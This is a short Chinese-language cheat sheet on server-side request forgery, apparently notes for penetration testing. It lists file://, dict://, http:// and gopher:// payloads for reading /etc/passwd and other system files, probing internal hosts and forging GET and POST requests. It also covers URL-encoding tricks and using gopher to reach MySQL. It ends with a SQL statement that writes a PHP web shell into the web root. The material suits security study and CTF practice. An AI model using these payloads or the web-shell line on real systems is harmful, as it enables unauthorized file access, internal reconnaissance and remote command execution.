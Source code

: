 
---

file://  协议

```
可以通过
file:///etc/passwd 
检查是否存在file://

通过
file:///etc/hosts
查看存活主机，并了解网段信息

file:///proc/net/arp
查看本机arp记录

```

dict://

```
dict://ip:port/info

查看扫描id
```

http://

```
http://
扫描网段主机，扫描主机文件

```

gopher://

```
该伪协议默认端口为70
传输数据时，会将第一个字符吃掉
gopher://ip:port/_XXX

```
GET传输
```

payload：
GET /name.php?name=666 HTTP/1.1
Host: 172.250.250.4

注意！！最后需要加上换行符
（1）
xxx的数据需要url编码, ?对应%3f，换行对应%0d%0a，空格对应%20
或
在数据框中一次url全编码

（2）
burpsuit 数据包修改，进行两次url全编码即可

```
POST传输
```
pyload:

POST /name.php HTTP/1.1
Host: 172.250.250.4
Content-Type: application/x-www-form-urlencoded
Content-Length: 8

name=hzh
注意
Content-Length长度为post数据总长度
（1）
在数据框中一次url全编码
（2）
在数据包中两次url全编码

```


gopher协议对sql注入时，注意不能有空格，加号之类的，需要进行url编码

ssrf对mysql进行未授权查询
```
手工
使用tcpdump抓取握手包，用wirshark进行分析，截取发出的指令原数据
使用脚本生成gopher-原理每两个前加一个%

工具 gopherus直接生成

```
ssrf对mysql进行未授权文件写入
```
sql指令
show variables like %secure%';
secure_file_priv没有值，说明mysql可以自行设置文件存储路径
select '<?php system($_GET['smd']);?>' into outfile '/var/www/html/cmd.php';

```